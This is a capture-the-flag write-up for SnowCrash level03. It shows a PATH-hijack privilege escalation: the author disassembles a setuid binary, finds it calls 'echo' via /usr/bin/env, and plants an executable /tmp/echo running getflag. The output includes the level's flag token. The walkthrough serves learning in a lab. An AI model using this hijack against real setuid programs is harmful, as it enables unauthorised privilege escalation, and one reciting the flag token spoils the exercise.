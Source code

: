 Level 03
========

*	We spawn with a `level03` file in root repository
*	No extension so I try to execute it and it prints 'Exploit me'
*	Then I try to _cat_ the file but its unreadable since its an executable
*	Using `file` command I saw that I should be able to get the asm code:
	```console
	level03@SnowCrash:~$ file level03 
	level03: setuid setgid ELF 32-bit LSB executable...
	```
*	I wanted to get a good look at the file so I used scp to get it on my machine and then:
	```console
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level03
	```
*	Code was still kinda bad so I did a little script to make it cleaner:
	```console
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*   We can see many calls but one of them is a system one :
	```assembly
	...
	call   80483b0 <system@plt>
	...
	```
*   So when we look into it on `gdb`
	```
	(gdb) x/s 0x80485e0
	0x80485e0:       "/usr/bin/env echo Exploit me"
	```
*   It seems like `echo` is vulnerable to manipulation since it's called using `/usr/bin/env` which makes the computer use the first binary found in `PATH`
*   So we should be able to create a script called echo to get the flag for us !
	```console
	level03@SnowCrash:~$ echo 'getflag' > /tmp/echo
	level03@SnowCrash:~$ export PATH=/tmp:$PATH
	level03@SnowCrash:~$ ./level03
	Exploit me
	```
*   DOESN'T WORK ! WHY ? (Well I forgot a little something)
	```console
	level03@SnowCrash:~$ chmod +x /tmp/echo
	level03@SnowCrash:~$ ./level03
	Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
	```